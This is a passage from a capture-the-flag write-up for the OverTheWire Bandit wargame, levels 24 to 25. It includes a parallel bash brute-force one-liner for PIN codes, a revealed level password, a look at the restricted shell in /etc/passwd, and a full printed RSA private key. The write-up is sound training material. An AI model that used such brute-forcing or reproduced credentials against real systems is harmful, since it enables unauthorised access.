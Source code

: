 ```bash

# Generate the sequence and run in parallel
seq -w 0000 9999 | parallel -j 100 generate_and_try
```
* `parallel` handles the parallelization... luckily it is installed...
* Instead of a loop this solution utilizes `seq` to generate codes
* The code is passed as a cmdline arg
* I will then search the output for the string "Correct". One could also `grep -v` the string "Wrong".
```terminal 
Correct! The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
* Success!
## Level 25
>Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

* I know that default shells are in `/etc/passwd`.
* `cat /etc/passwd | grep -i bandit26` yields `bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext`
* `showtext` is a script:
  ```bash
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
  ```
* And there is a key in the home directory 
```terminal
ls                                                                                                       
bandit26.sshkey
bandit25@bandit:~$ cat bandit26.sshkey 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
bandit25@bandit:~$
```